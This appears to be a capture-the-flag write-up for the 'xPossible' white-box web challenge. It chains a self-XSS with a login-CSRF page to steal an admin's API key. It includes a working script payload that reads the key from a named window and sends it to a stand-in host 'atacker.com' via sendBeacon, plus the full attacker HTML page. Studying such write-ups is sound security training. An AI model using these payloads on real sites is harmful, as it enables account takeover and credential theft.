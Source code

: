 # Exploit `xPossible` challenge

## Source
- [challenge source](https://github.com/VoorivexTeam/white-box-challenges/tree/main/xPossible)

## WriteUp
- login to your account
- put this payload in `name` to perform a `self XSS`
```html
<script>w_with_data = window.open('', 'jahfar'); key = w_with_data.document.querySelector('.api-key p').textContent; navigator.sendBeacon("http://atacker.com", key);</script>
```
the payload will open a window called `jahfar`, read the `w_with_data.document.querySelector('.api-key p').textContent` and send it to `http://atacker.com`
- then make a page with this source and give it to `admin` user
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Redirector</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 0 auto;
            padding: 20px;
            line-height: 1.6;
        }

        .login-form {
            display: none; 
        }

    </style>
</head>
<body>

    <img src="https://api.omdebashi.com/static/images/products/cover/golmohammadi-denmarki-moeinipour-3674133-optimized.jpeg" alt="Placeholder Image" onclick="run()">

    <div class="login-form">
        <form id="loginForm" action="http:.//victim.com" method="POST">
            <input type="text" name="username" placeholder="Username" value="user" required>
            <input type="password" name="password" placeholder="Password" value="pass" required>
            <input type="hidden" name="login" value="1">
            <button type="submit">Login</button>
        </form>
    </div>

    <script>
        function run() {
            window.w_with_data = window.open("http://victim.com", "jahfar", "width=600,height=400"); //open the page
            setTimeout(() => {
                document.getElementById("loginForm").submit();
            }, 3000);
        }
    </script>
</body>
</html>
```
this source will open a window to `http://victim.com` name it `jahfar`, in there, `admin` has a session in there so the API key is admin's API key.
- then the form is submited, and the `admin` will be logged in to your account and make the xss run
- the xss will get the content of the `jahfar` window, because the `jahfar` window is the same origin with `self XSS` page, we can get the content, `SOP` will not prevent us, and because the session on `jahfar` window is still the admin's session, we can read the admin's API key  


